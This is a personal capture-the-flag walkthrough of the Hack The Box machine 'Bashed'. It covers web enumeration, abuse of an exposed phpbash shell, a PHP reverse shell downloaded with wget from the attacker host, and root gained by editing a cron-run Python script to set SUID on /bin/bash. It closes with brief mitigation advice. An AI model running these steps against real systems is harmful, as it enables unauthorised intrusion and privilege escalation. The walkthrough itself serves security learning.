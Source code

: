 # Bashed

```
kali@kali:~/htb/Bashed$ sudo nmap -sV -sC 10.129.88.188
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-28 10:04 EST
Nmap scan report for 10.129.88.188
Host is up (0.027s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.31 seconds
```

Ok, the webpage leads to a blog about PHPbashing. Nothing really to click, except a blog post.

I decide to run wfuzz:

```
kali@kali:~/htb/Bashed$ sudo wfuzz -c -L --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.88.188/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.88.188/FUZZ
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                            
===================================================================

000000001:   200        161 L    397 W    7743 Ch     "# directory-list-2.3-medium.txt"                                  
000000003:   200        161 L    397 W    7743 Ch     "# Copyright 2007 James Fisher"                                    
000000007:   200        161 L    397 W    7743 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"  
000000014:   200        161 L    397 W    7743 Ch     "http://10.129.88.188/"                                            
000000016:   200        19 L     88 W     1566 Ch     "images"                                                           
000000012:   200        161 L    397 W    7743 Ch     "# on atleast 2 different hosts"                                   
000000013:   200        161 L    397 W    7743 Ch     "#"                                                                
000000011:   200        161 L    397 W    7743 Ch     "# Priority ordered case sensative list, where entries were found"
000000010:   200        161 L    397 W    7743 Ch     "#"                                                                
000000008:   200        161 L    397 W    7743 Ch     "# or send a letter to Creative Commons, 171 Second Street,"       
000000005:   200        161 L    397 W    7743 Ch     "# This work is licensed under the Creative Commons"               
000000006:   200        161 L    397 W    7743 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"    
000000002:   200        161 L    397 W    7743 Ch     "#"                                                                
000000009:   200        161 L    397 W    7743 Ch     "# Suite 300, San Francisco, California, 94105, USA."              
000000004:   200        161 L    397 W    7743 Ch     "#"                                                                
000000164:   200        1 L      1 W      14 Ch       "uploads"                                                          
000000338:   200        16 L     59 W     941 Ch      "php"                                                              
000000550:   200        20 L     96 W     1760 Ch     "css"                                                              
000000834:   200        17 L     69 W     1150 Ch     "dev"                                                              
000000953:   200        26 L     165 W    3167 Ch     "js"                                                               
000002771:   200        21 L     111 W    2097 Ch     "fonts"                                                            
000045240:   200        161 L    397 W    7743 Ch     "http://10.129.88.188/"

```

/uploads/ is empty, but /php/ contains a directory that shows sendMail.php

Which is completely empty. I try curling, burpsuite. But it is completely empty. So I decide to check out the PHPbash talked about in the blog.

```
phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!
```

So phpbash is a pentesting tool, developed on this exact server. Well. There is a /dev/ directory here.

![](images/1.png)

So I try out phpbash.php:

```
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php
phpbash.php
www-data@bashed:/var/www/html/dev# whoami
www-data
www-data@bashed:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

I’ll create a reverse shell, as I know more about the capabilities of the tty than phpbash. I try python, netcat, bash. But at the end I just decide to upload a php reverse shell.

```
kali@kali:~/htb/Bashed$ cp /usr/share/webshells/php/php-reverse-shell.php .
kali@kali:~/htb/Bashed$ sudo vim php-reverse-shell.php
kali@kali:~/htb/Bashed$

```

And then on the website:

```
www-data@bashed:/tmp# wget 10.10.14.52:8000/php-reverse-shell.php

--2021-01-28 13:52:51-- http://10.10.14.52:8000/php-reverse-shell.php
Connecting to 10.10.14.52:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

0K ..... 100% 445M=0s

2021-01-28 13:52:51 (445 MB/s) - 'php-reverse-shell.php' saved [5493/5493]
www-data@bashed:/tmp# php php-reverse-shell.php
```

And of course on the listener:

```
kali@kali:~/htb/Bashed$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.88.188 34008
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:53:03 up  6:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

I am slightly sad. I’ve had the ip 10.10.14.21 for well over a week. And now suddenly I am 10.10.14.52. And I’ve gotten so used to 21. Anyways. I improve the shell. Read more here: https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/ 


So I’m gonna try and log in as scriptmanager, and see what permissions that account has.

```
www-data@bashed:/$ sudo -u scriptmanager bash
scriptmanager@bashed:/$
scriptmanager@bashed:/$ whoami
scriptmanager
scriptmanager@bashed:/$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
```
Aha, so as scriptmanager we can now enter the scripts directory. I also checked /home/scriptmanager/.bash_history to see if there was anything good, but it was empty. 

Let’s look at this script:

```
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.txt ; echo
testing 123!
scriptmanager@bashed:/scripts$
```

So it simply opens a file and writes to it. Let’s check the permissions:

```
scriptmanager@bashed:/scripts$ ls -la 
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jan 28 14:14 test.txt
```

So the script is owned by scriptmanager, but the file is owned by root. We can also see the time discrepancy between the python file and the text file. 

The text file is actually last edited right now. So the python script is probably being ran constantly.

I edit the file with nano. I normally use vim, but it’s not installed. BTW. If the target machine has vim, you may be able to spawn a root shell with that, look more here: https://gtfobins.github.io/gtfobins/vim/ 

```
import os  

os.system("chmod 4755 /bin/bash")
```

This simply changes the permissions of /bin/bash. 4755 means that everyone can execute it, more here: https://chmodcommand.com/chmod-4755/ 

ctrl+X to exit nano, Y to write, and enter to have the same name.

```
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
```

-p means that bash will run in privileged mode.


## Comparing myself to the official writeup:

The official writeup uses the same methods, except it runs another reverse shell from the python program instead of changing the bash permissions. 


## How to stop this exploit:

The web user should not be able to access sripts, especially when you give an end-user access to that user by default with the phpbash dev site. The automatic script execution could also have an additional check. Maybe do a md5sum of the program, and only run it if the md5sum matches.


